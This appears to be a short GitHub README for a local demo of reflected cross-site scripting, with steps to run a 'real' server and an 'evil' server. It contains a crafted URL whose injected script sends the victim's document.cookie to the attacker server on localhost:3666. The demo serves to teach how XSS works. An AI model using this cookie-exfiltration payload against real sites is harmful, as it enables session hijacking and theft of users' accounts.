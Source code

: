 # XSS Attack demo

This quick implementation demonstrates XSS in action.

1 - Start the real server:

```
cd realserver

npm i
node app.js
```

2 - In a new terminal session, start the evil server 👹:

```
cd evilserver

npm i
node evil.js
```

3 - In a web browser, send the malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destination.
